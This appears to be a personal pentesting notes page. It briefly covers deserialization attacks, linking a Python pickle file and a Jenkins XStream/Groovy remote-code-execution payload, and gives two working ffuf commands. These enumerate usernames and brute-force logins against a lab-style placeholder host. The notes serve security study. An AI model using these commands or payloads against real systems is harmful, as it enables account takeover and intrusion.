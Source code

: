 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<h6 id="python-serialization">Python</h6>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/python-pickle.txt">Python cPickle</a>


<h6 id="jenkin-serialization">Serialization Issue Jenkins -XStream</h6>
<p>remote code execution on the server hosting Jenkins.</p>
<p>Example xml payload using groovy library</p>
<a href="https://github.com/allenjedb/allenjedb.github.io/blob/main/assets/stuff/Serializations/Jenkins-groovy.txt">Jenkins-groovy payload</a>
<p>has a metasploit module</p>


<h2 id="brute-forcing">BruteForcing</h2>
<h6 id="ffuf">FFUF</h6>
<code>ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"</code>    

 <code>ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
</code>       
